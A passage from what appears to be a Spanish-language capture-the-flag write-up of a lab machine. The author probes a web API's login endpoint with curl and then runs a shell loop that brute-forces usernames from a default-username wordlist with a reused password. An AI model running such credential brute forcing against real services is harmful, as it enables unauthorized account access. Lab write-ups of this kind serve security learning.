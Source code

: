 Vemos un endpoint `/users` pero necesito estar autenticado
```shell
$ curl -X GET http://10.129.96.55:3000/users -H 'Authorization: '
{"success":false,"message":"Auth token is not supplied"}
```

```shell
$ curl -X POST http://10.129.96.55:3000/login --data "username=root&password=test"Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "user=root&password=test"
Bad Request┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "username=root&password=test"Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
```

Deduzco que la data se la tengo que mandar en formato `x-www-form-urlencoded` y que los campos son `username` y `password`
```shell
$ curl -X POST http://10.129.96.55:3000/login --data "username=root&password=test"Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "user=root&password=test"
Bad Request┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "username=root&password=test"Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
```

Intento iniciar sesión con las credenciales que ya tenía.
```shell
$ curl -X POST http://10.129.96.55:3000/login --data "username=root&password=Zk6heYCyv6ZE9Xcg"
Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "username=chihiro&password=Zk6heYCyv6ZE9Xcg"
Forbidden┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/luke/content]
└──╼ [★]$ curl -X POST http://10.129.96.55:3000/login --data "username=derry&password=Zk6heYCyv6ZE9Xcg"
Forbidden
```

Y nada. Así que probé a hacer una pequeña fuerza bruta... 

Y sorprendentemente funcionó.
```shell
$ for username in $(cat /opt/SecLists/Usernames/cirt-default-usernames.txt | awk '{print tolower($0)}'); do echo " -> $username"; curl -X POST http://10.129.96.55:3000/login --data "username=$username&password=Zk6heYCyv6ZE9Xcg"; done
 -> !root
Forbidden -> $aloc$
Forbidden -> $srv
Forbidden -> $system
Forbidden -> (null)
Forbidden -> (any)
Forbidden -> (created)
Forbidden -> 1
Forbidden -> 11111111
Forbidden -> 12.x
Forbidden -> 1502
Forbidden -> 18140815
Forbidden -> 1nstaller
Forbidden -> 2
Forbidden -> 22222222
Forbidden -> 30
Forbidden -> 31994
Forbidden -> 4dgifts
Forbidden -> 5
Forbidden -> 6.x
Forbidden -> 7
Forbidden -> adams
Forbidden -> adldemo
```